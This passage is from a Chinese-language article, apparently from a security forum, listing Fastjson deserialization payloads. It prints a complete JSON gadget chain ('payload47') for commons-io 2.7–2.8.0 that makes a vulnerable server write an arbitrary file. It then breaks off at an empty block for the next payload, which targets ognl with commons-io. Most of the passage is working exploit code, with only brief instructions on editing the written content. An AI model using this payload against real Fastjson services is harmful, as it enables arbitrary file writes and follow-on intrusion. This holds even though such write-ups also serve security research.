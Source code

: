 ![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-9acd1b271ba382b45096a908058baeace8371af2.png)

### 5.1.3 commons-io 2.7~2.8.0版本

和上面大差不差，同样需要自行修改写入内容。

`payload47`：

```json
{"x":{"@type":"com.alibaba.fastjson.JSONObject","input":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.ReaderInputStream","reader":{"@type":"org.apache.commons.io.input.CharSequenceReader","charSequence":{"@type":"java.lang.String""W01fh4ckeraaaaaa...","start":0,"end":2147483647},"charsetName":"UTF-8","bufferSize":1024},"branch":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.output.WriterOutputStream","writer":{"@type":"org.apache.commons.io.output.FileWriterWithEncoding","file":"2.txt","charsetName":"UTF-8","append":false},"charsetName":"UTF-8","bufferSize":1024,"writeImmediately":true},"trigger":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger2":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"},"trigger3":{"@type":"java.lang.AutoCloseable","@type":"org.apache.commons.io.input.XmlStreamReader","inputStream":{"@type":"org.apache.commons.io.input.TeeInputStream","input":{"$ref":"$.input"},"branch":{"$ref":"$.branch"},"closeBranch":true},"httpContentType":"text/xml","lenient":false,"defaultEncoding":"UTF-8"}}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-57585a062dcef011a7d68d71a2a6f0f97d7c7b0a.png)

5.2 ognl+commons-io 2.x（1.2.73&lt;=version&lt;=1.2.80）
------------------------------------------------------

### 5.2.1 ognl+commons-io 2.0~2.6版本

`payload48`：

同样是省略了一堆`a`，需要自行修改补充。

```json
```